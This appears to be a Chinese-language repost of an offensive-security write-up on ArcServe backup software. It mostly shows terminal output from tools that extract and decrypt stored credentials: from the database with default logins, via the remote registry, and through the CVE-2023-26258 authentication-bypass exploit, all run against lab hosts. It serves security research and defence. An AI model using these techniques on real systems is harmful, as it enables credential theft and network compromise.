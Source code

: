   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    psyconauta@insulanova:/tmp|⇒  python3 arcserve-dbpwn.py -target 192.168.56.10 -port 62197    -=[ ArcServe credential retriever (from DB) - Juan Manuel Fernandez (@TheXC3LL) ]=-  
      
    [*] Connecting to the server[*] Login with default creds[*] Extracting credentials:  [+] User: SEVENKINGDOMS\\vagrant  [+] Password: {133, 60, 97, 192, 158, 159, 25, 141, 58, 250, 174, 169, 141, 216, 104, 98}; // Paste it to the decrypter  [+] User: SEVENKINGDOMS\\vagrant  [+] Password: {133, 60, 97, 192, 158, 159, 25, 141, 58, 250, 174, 169, 141, 216, 104, 98}; // Paste it to the decrypter[*] Finding hosts:  [+] 192.168.56.10 | kingslanding.sevenkingdoms.local | Windows Server 2019 Datacenter Evaluation  [+] 192.168.56.10 | kingslanding.sevenkingdoms.local | NULL  
      
     Have a nice day! ^_^
    
    
    这些工具检索到的所有密码都可以使用ArcServeDecrypter.exe进行解密。只需编辑 C 代码来添加数组，编译并执行它：

  *   *   *   * 

    
    
    C:\\Users\\vagrant>C:\\Users\\vagrant\\source\\repos\\ArcServeDecrypter\\x64\\Debug\\ArcServeDecrypter.exe                -={ ArcServe Decryptor by Juan Manuel Fernandez (@TheXC3LL) }=-  
    [+] Decrypted string: vagrant
    
    
    如果用户在安装 ArcServe 的服务器上具有本地管理员权限，则可以使用远程注册表服务 ( arcserve-regkeys.py ) 读取凭据：

  *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    psyconauta@insulanova:/tmp|⇒  python3 arcserve-creds.py -u eddard.stark -p 'FightP3aceAndHonor!' -d sevenkingdoms.local -target-ip 192.168.56.20    -=[ ArcServe Credential Stealer - (@TheXC3LL) ]=-[+] Connecting to 192.168.56.20[+] Checking Remote Registry service status...[+] Service is down![+] Starting Remote Registry service...[+] Connecting to 192.168.56.20[+] Opening registry key  [*] User: P3TWLADS11STD\\vagrant  [*] Password: {133, 60, 97, 192, 158, 159, 25, 141, 58, 250, 174, 169, 141, 216, 104, 98}; // Paste it to the decrypter[+] Stopping Remote Registry Service  
    Have a nice day! ^_^
    
    
    最后，如果 ArcServe 版本未修补 (CVE-2023-26258)，则可以利用管理 Web 界面中的身份验证绕过并检索管理员凭据 ( ArcServe-exploit.py )：

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    psyconauta@insulanova:/tmp|⇒  python3 exploit.py 192.168.56.10    -=[ ArcServe Pwner by Juan Manuel Fernandez (@TheXC3LL) ]=-  
      
    [*] Triggering info leak  [+] AdminName: SEVENKINGDOMS\\vagrant  [+] AuthUUID: 6bf37b8e-ac4f-487d-8d74-d6d0a8d9b8d1[*] Getting a valid session  [+] Session: AGENTJSESSIONID=CA35EF18A4FF2F85E25538F60C3F7428[*] Doing an authenticated request to validate if session is valid[*] Session is valid  [+] Admin: SEVENKINGDOMS\\vagrant  [+] Password: {133, 60, 97, 192, 158, 159, 25, 141, 58, 250, 174, 169, 141, 216, 104, 98} // Paste it to the decrypter  
      
    Have a happy hacking! ^_^
    
    
    GitHub上的工具链接：https://github.com/mdsecactivebreach/CVE-2023-26258-ArcServe

预览时标签不可点
